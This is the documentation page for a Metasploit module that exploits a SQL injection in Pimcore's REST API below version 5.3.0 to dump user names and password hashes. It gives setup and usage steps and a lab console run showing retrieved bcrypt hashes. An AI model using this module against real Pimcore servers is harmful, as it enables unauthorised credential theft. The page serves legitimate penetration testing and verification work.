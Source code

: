 ## Description

  This module exploits a SQL injection vulnerability in Pimcore's REST web service for versions below 5.3.0. By using a UNION query on the `object inquire` service, this module can steal the usernames and password hashes of all users of Pimcore.

  Pimcore begins to create password hashes by concatenating a user's username, the name of the application, and the user's password like so: `USERNAME:pimcore:PASSWORD`.
  The resulting string is then used to generate an MD5 hash, and then that MD5 hash is used to create the final hash, which is generated using PHP's built-in `password_hash` function.

## Vulnerable Application

  Installing composer and running `php composer.phar create-project pimcore/pimcore=5.2.3 ./myproject --no-dev` will install Pimcore and most of its dependencies.
  The installation process will give notifications on missing PHP extensions that are required. Additionally, a web server and database must be set up.

  Source for Pimcore v5.2.3 can also be found [here](https://www.exploit-db.com/apps/7c759b5b7f2896a7d5461582e149bcaa-pimcore-5.2.3.tar.gz)

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/sqli/oracle/pimcore_list_creds`
  3. Do: `set RHOSTS [IP]`
  3. Do: `set TARGETURI [URI]`
  3. Do: `set APIKEY [KEY]`
  4. Do: `run`
  5. You should get a list of Pimcore user credentials

## Options

  **APIKEY**

  Valid API key for accessing Pimcore's REST API in order to perform the injection.

## Scenarios

### Tested on Ubuntu 18.04.1 Running Pimcore v5.2.3


  ```
  msf5 > use auxiliary/sqli/oracle/pimcore_list_creds
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > set rhosts 192.168.37.246
  rhosts => 192.168.37.246
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > set apikey 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
  apikey => 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > run

  [+] Credentials obtained:
  [+] admin : $2y$10$sBaD3EOAm/i1F3Mm/fwseeq3nyoacdlUt4NkVLZUgJ4FTReJSKIbe
  [+] secondUser : $2y$10$DYaFjrYnajTmVhhXSmsh8O5rLrQuPt8Q9Dto3vaQ4747K5kSvWEPy
  [+] blah : $2y$10$sJWr.puqXnF5T3DI3L1oqu3aIJRjUtHs9.2pgHEkevEdGrGvO1cBC
  [*] Auxiliary module execution completed
  ```
